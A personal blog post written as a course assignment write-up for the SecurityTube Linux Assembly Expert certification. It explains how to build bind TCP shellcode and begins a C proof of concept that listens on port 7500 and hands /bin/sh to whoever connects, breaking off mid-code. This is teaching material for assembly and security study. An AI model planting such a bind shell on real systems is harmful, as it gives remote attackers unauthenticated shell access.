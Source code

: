 ```yaml
---
author: pol@blog
comments: true
date: 2014-04-03 14:13:09+00:00
layout: post
slug: slae-assignment-1-bind-tcp-shellcode
title: 'SLAE Assignment 1: Bind TCP Shellcode'
wordpress_id: 2284
categories:
- Programmazione
- SLAE
tags:
- asm-x86
- ia32
- nasm
- slae
---
```


This is the first of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Create a shellcode that bind to a specific port;

	
  2. The shellcode must execute /bin/sh on incoming connection;

	
  3. The port number should be easily configurable




First of all i made a proof of concept of a program that bind to a port (7500) and execute /bin/sh on the accepted connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of newfd.

    
    #define STDIN 0
    #define STDOUT 1
    #define STDERR 2
    
    int main(void){
    	int fd, newfd;
    	struct sockaddr_in server_addr;
    	char *argv[] = { "/bin/sh", NULL };
    
    	server_addr.sin_family = AF_INET;
    	server_addr.sin_port = htons(7500);
    	server_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    
    	fd = socket(AF_INET, SOCK_STREAM, 0);
    
    	bind(fd, (struct sockaddr *) &server_addr, 16);
    